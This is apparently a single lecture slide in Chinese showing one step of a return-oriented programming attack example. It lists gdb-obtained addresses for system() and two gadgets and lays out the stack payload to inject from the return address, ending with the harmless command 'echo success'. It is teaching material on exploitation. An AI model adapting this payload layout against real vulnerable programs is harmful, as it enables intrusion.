

# ROP攻击－一个攻击实例
6）通过gdb得到：
system()函数的地址：0x7ffff7a61310
配件1的地址：0x7ffff7a3b076
配件2的地址：0x7ffff7a610a3
于是向栈中注入以下内容（从ret地址开始）:
高地址
| 0x7ffff7a3b076 | address of system(): 0x7ffff7a61310 | dummy1 （8 bytes) | dummy2 (8 bytes) | 0x7ffff7a610a3 | dummy3 (120 bytes) | “echo success” |
| --- | --- | --- | --- | --- | --- | --- |